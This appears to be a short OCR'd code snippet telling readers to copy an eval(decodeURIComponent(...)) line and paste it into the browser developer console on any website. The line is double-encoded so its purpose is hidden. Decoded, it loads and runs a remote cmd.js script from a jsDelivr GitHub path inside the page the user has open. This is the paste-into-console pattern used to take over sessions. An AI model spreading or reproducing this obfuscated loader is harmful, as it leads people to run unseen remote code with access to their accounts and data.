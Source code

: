 # copy this code below
eval(decodeURIComponent('%76%61%72%20%73%63%72%69%70%74%20%3d%20%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%37%27%29%29%29%3b%20%73%63%72%69%70%74%2e%73%72%63%20%3d%20%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%32%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%33%25%36%34%25%36%65%25%32%65%25%36%61%25%37%33%25%36%34%25%36%35%25%36%63%25%36%39%25%37%36%25%37%32%25%32%65%25%36%65%25%36%35%25%37%34%25%32%66%25%36%37%25%36%38%25%32%66%25%34%31%25%36%65%25%37%34%25%36%39%25%32%64%25%35%33%25%36%33%25%36%31%25%36%64%25%36%35%25%37%32%25%32%66%25%36%33%25%36%64%25%36%34%25%36%61%25%37%33%25%34%30%25%33%33%25%32%66%25%36%33%25%36%64%25%36%34%25%32%65%25%36%61%25%37%33%25%32%32%27%29%29%3b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%36%38%25%36%35%25%36%31%25%36%34%25%32%37%27%29%29%29%5b%30%5d%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%73%63%72%69%70%74%29%3b%20'));

# then, on any website, press CTRL + SHIFT + I 
